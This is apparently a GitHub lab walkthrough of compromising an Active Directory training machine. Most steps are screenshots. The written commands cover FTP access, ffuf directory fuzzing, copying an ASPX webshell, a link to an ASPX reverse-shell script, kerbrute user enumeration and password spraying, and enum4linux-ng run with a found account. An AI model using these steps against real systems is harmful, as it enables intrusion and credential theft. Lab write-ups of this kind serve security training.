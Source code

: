 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5a1e9008-596b-411b-a72c-c78ff662881e)

```
 ftp 192.168.2.7
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bc1c825-1fc4-4d95-9a09-fe388d53957a)
```
ffuf -u http://192.168.2.7/FUZZ -w /home/kali/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-medium.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/96189e50-7fbe-424f-a226-54b0ae4e900c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a9e919aa-648a-4707-a4be-611d6dd10edb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8cc07b6b-174b-4655-8f82-eceebbfd4045)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9d652f58-07c9-4bfc-9d38-0239ad8c0993)
```
cp /usr/share/webshells/aspx/cmdasp.aspx ~/CodeBy/AD/Bunker
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/883a0640-90f6-4ee3-8793-26b4ba0404a1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ea7c9cc-dc4f-49d2-a5bb-936057587b02)

https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e203fc9d-91e8-4ecf-aa6c-31ecf0542711)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1819789f-6478-49dd-813c-8872a73e1adf)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2841c526-af31-451e-b87e-7537340f1c5e)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.7 user.txt  
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/85ec86f3-29ce-4038-9789-c50a835dea9a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/894b6ab0-ba5c-4bdf-a5ce-28d1355d7f25)
```
./kerbrute_linux_amd64 passwordspray -d codeby.cdb --dc 192.168.2.7 user.txt PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ef6abbee-9f62-443c-be53-d41e2b778b05)
```
enum4linux-ng 192.168.2.7 -u 'kristina.levashova' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bcc55e3-d1eb-456b-9ae4-eaac391d0aa5)

